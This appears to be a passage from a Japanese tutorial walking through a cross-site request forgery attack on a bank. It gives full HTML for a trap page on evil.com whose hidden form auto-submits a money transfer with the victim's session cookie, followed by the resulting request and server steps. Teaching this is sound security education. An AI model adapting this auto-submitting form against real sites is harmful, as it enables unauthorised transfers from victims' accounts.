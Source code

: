 #### 攻撃の流れ

**Step 1: 攻撃者が罠サイトを用意**
```html
<!-- http://evil.com/free-gift.html -->
<!DOCTYPE html>
<html>
<head>
    <title>無料プレゼント！</title>
</head>
<body>
    <h1>おめでとうございます！商品が当選しました</h1>
    <p>受け取るには下のボタンをクリック</p>
    
    <!-- 見えないフォーム（display:none） -->
    <form id="attack" action="https://bank-a.com/transfer" method="POST" style="display:none">
        <input name="to_account" value="攻撃者の口座番号">
        <input name="amount" value="1000000">
    </form>
    
    <script>
        // ページ読み込み時に自動送信
        document.getElementById('attack').submit();
    </script>
</body>
</html>
```

**Step 2: 被害者がリンクをクリック**
```
メール: 「無料プレゼント当選！ http://evil.com/free-gift.html」
↓
被害者がクリック
↓
evil.com のページが開く
↓
JavaScript が自動的にフォームを送信
```

**Step 3: ブラウザの挙動**
```
ブラウザ:
「https://bank-a.com/transfer へPOSTリクエストを送信します」
「お、bank-a.com へのリクエストだな。Cookieを自動で付けよう」

送信内容:
POST https://bank-a.com/transfer
Cookie: session=被害者のセッションID  ← 自動で付く！
Content-Type: application/x-www-form-urlencoded

to_account=攻撃者の口座番号&amount=1000000
```

**Step 4: 銀行サーバーの処理**
```
銀行サーバー:
「セッションIDを確認...OK、ログイン中だ」
「送金処理を実行します」
「被害者の口座 → 攻撃者の口座へ 100万円送金」
```
